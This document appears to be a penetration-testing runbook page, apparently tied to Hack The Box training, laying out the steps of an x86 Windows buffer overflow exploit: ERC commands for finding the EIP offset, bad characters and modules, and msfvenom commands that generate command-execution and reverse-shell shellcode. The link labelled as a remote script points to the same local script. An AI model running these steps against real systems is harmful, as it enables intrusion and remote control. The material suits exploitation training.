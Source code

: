 # buffer overflow x86 windows

## Step 1: Take control EIP

- Get rough estimate offset (e.g. 1000)
- Create pattern.
```shell
ERC --pattern c 5000
```

- Calculate exact offset.
```shell
ERC --pattern o 1hF0
```

- Verify offset by overwriting EIP.

## Step 2: Identify bad chars

- Generate chars string.

```shell
ERC --bytearray -bytes 0x00
```

- Compare characters from array to character in memory region, using the value of the ESP.

```shell
ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin
```

## Step 3: Identify return address

To find a list of all loaded files by the program, we can use 

```shell
ERC --ModuleInfo
```

## Step 4: Generate shellcode

- Generate shellcode using `msfvenom`.
```shell
msfvenom -p "windows/exec" CMD="cmd.exe" --format "python" --bad-chars "\x00"
```
```shell
msfvenom -p "windows/shell_reverse_tcp" LHOST=$me LPORT=4444 -f "python" --bad-chars "\x00"
```

## Python

- A Python script for local buffer overflow can be at [GitHub](https://github.com/a3cipher/runbook/blob/main/ptes3-exploitation/binary-exploitation/bo-x86-windows-local.py).
- A Python script for remote buffer overflow can be at [GitHub](https://github.com/a3cipher/runbook/blob/main/ptes3-exploitation/binary-exploitation/bo-x86-windows-local.py).
